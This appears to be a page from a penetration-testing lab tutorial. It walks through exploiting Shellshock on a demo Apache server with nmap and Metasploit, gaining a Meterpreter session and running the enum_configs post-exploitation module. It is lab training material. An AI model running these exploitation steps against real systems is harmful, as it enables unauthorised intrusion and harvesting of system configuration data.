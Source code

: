 #### Step 1: Gaining Initial Foothold

To begin automating the local enumeration on the target Linux system, first identify a vulnerable service and exploit it to gain access. In this demo, we will use **Shellshock** to exploit a vulnerable Apache server.

- **Check the network configuration**:

    ```bash
    ifconfig
    ```

- **Perform a service version scan on the target**:

    ```bash
    nmap -sV demo.ine.local
    ```

- **Start Metasploit** and search for the **Shellshock** vulnerability:

    ```bash
    msfconsole
    search shellshock
    ```

- **Use the Shellshock exploit module**:

    ```bash
    use exploit/multi/http/apache_mod_cgi_bash_env_exec
    ```

- **Set the target address and URI**:

    ```bash
    set rhosts demo.ine.local
    set targeturi /gettime.cgi
    ```

- **Run the exploit**:

    ```bash
    run
    ```

Once the exploit is successful, a **Meterpreter session** will be established.

#### Step 2: Automated Enumeration with MSF Modules

Now that we have a **Meterpreter session**, we can use Metasploit post-exploitation modules to automate the enumeration of the system.

- **Enumerate system configurations**:

    ```bash
    use post/linux/gather/enum_configs
    ```

    After running the module, you can manually view the paths of the configuration files by **catting** them.
